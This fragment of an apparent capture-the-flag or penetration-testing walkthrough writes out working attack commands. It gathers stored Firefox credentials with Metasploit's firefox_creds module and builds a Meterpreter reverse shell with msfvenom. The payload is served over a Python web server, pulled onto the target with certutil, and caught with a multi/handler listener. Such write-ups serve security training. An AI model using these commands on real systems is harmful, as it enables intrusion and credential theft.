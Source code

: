 ```bash
icacls "C:\Program Files\VMware"

```

![image46](../resources/8edb0babef2440179bfba713963ff2fb.png)

- Actually looking back in the user desktop directory:

![image47](../resources/e3becdeb5e8b4182bb13dc4e1369a4f4.png)

- We see Firefox.lnk meaning that the machine is running firefox

- In msfconsole:
Search for firefox and look for a POST/ - since we've already got a shell

```bash
post/multi/gather/firefox_creds

```

![image48](../resources/b70857365e2d4f2f8b8f347876fa001d.png)

- First we need to get a meterpreter session:

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.8.24.66 LPORT=5555 -f exe -o reverse.exe
python -m http.server
certutil.exe -urlcache -f http://10.8.24.66:8000/reverse.exe reverse.exe
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter_reverse_tcp; set lhost 10.8.24.66; set lport 5555; exploit"
```
Run reverse.exe
